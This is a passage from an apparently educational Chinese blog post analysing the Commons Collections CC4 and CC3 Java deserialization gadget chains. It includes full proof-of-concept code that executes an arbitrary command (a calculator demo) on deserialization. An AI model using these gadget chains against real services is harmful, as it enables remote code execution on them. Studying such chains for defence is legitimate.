

成功走到`TemplatesImpl.newTransformer()`，至此，cc2结束。

## CC 4

### 利用条件

同 cc2 

- **commons-collections4: 4.0**
- jdk 版本暂无限制

### 完整Poc

```java
public class Poc {
    public static void main(String[] args) throws Exception {

        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cc = pool.makeClass("Cat");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"open  -a Calculator\");";
        // 创建 static 代码块，并插入代码
        cc.makeClassInitializer().insertBefore(cmd);
        String randomClassName = "EvilCat" + System.nanoTime();
        cc.setName(randomClassName);
        cc.setSuperclass(pool.get(AbstractTranslet.class.getName())); //设置父类为AbstractTranslet，避免报错

        byte[] classBytes = cc.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", targetByteCodes);
        setFieldValue(templates, "_name", "name");
        setFieldValue(templates, "_class", null);

        /**
         * TrAXFilter 构造函数能直接触发 所以不用利用 invoke 那个
         */
        ChainedTransformer chain = new ChainedTransformer(new Transformer[] {
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templates})
        });

        TransformingComparator comparator = new TransformingComparator(chain);
        PriorityQueue queue = new PriorityQueue(2,comparator);


        setFieldValue(queue,"size",2);
        setFieldValue(queue,"comparator",comparator);

        ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("bin/CC4Poc.bin"));
        outputStream.writeObject(queue);
        outputStream.close();

        ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("bin/CC4Poc.bin"));
        inputStream.readObject();
    }

    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        }
        catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }
}
```

### 利用链分析

CC4 『 kick - off 』的起点与 CC2 相同，还是优先级队列。Sink的终点也相同，`TemplatesImpl.newTransformer()`。不同的是CC2使用了`InvokerTransformer.transform(intput)`反射调用`TemplatesImpl.newTransformer()`，而CC4则使用了`InstantiateTransformer.transform(input)` 生成 **TrAXFilter**对象，其构造函数自动调用`TemplatesImpl.newTransformer()`。

#### TrAXFilter

在 **TrAXFilter**类的构造器中，会调用可控参数的`templates.newTransformer()`。那么我们现在只需要一个实例化对象的入口就行了。

```java
public TrAXFilter(Templates templates)  throws
    TransformerConfigurationException
{
    _templates = templates;
    _transformer = (TransformerImpl) templates.newTransformer();
    _transformerHandler = new TransformerHandlerImpl(_transformer);
    _useServicesMechanism = _transformer.useServicesMechnism();
}
```

#### InstantiateTransformer

迷人的`transform()`，创建 **TrAXFilter**实例对象，并把 **TemplatesImpl**传入，完美。



### 完整调用链



和CC2相比只是在`transform()`的选择上有所不同。

## CC3

#### 利用条件

同CC1

- **cc3.1～3.2.1**
- **jdk 1.7**(8u71之前都可以)

CC3 == CC1 + CC4，那么就明白为什么对JDK版本有所限制了。

#### 完整Poc

```java
public class Poc {
    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cc = pool.makeClass("Cat");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"open  -a Calculator\");";
        cc.makeClassInitializer().insertBefore(cmd);
        String randomClassName = "EvilCat" + System.nanoTime();
        cc.setName(randomClassName);
        cc.setSuperclass(pool.get(AbstractTranslet.class.getName())); //设置父类为AbstractTranslet，避免报错
        byte[] classBytes = cc.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", targetByteCodes);
        setFieldValue(templates, "_name", "name");
        setFieldValue(templates, "_class", null);

        ChainedTransformer chain = new ChainedTransformer(new Transformer[] {
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templates})
        });

        HashMap innermap = new HashMap();
        LazyMap map = (LazyMap)LazyMap.decorate(innermap,chain);


        Constructor handler_constructor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class, Map.class);
        handler_constructor.setAccessible(true);
        InvocationHandler map_handler = (InvocationHandler) handler_constructor.newInstance(Override.class,map);
        Map proxy_map = (Map) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),new Class[]{Map.class},map_handler);


        Constructor AnnotationInvocationHandler_Constructor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class,Map.class);
        AnnotationInvocationHandler_Constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler)AnnotationInvocationHandler_Constructor.newInstance(Override.class,proxy_map);

        ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("bin/CC2Poc.bin"));
        outputStream.writeObject(handler);
        outputStream.close();

        ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("bin/CC2Poc.bin"));
        inputStream.readObject();


    }
    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        }
        catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }
}
```

在CC4中，使用 `TransformingComparator.compare()`走到了`ChainedTransformer.transform()`，而CC3延续了CC1的`LazyMap.get()`，进行了拼接。实际上CC5 6 7都可以进行拼接，这相当于提供了一个思路，把CC链的版本从4降到了3。

## 后记

学好数据结构，基本功决定上限。
